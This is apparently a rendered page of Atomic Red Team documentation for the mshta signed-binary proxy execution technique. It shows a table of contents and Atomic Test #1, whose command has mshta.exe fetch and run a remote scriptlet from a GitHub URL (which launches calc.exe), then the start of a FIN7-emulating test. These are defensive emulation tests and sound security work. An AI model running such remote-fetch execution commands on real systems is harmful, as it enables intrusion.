 - [Atomic Test #8 - Invoke HTML Application - JScript Engine with Inline Protocol Handler](#atomic-test-8---invoke-html-application---jscript-engine-with-inline-protocol-handler)

- [Atomic Test #9 - Invoke HTML Application - Simulate Lateral Movement over UNC Path](#atomic-test-9---invoke-html-application---simulate-lateral-movement-over-unc-path)

- [Atomic Test #10 - Mshta used to Execute PowerShell](#atomic-test-10---mshta-used-to-execute-powershell)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 1483fab9-4f52-4217-a9ce-daa9d7747cae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_url | location of the payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.

**Supported Platforms:** Windows


**auto_generated_guid:** 906865c3-e05f-4acc-85c4-fbc185455095




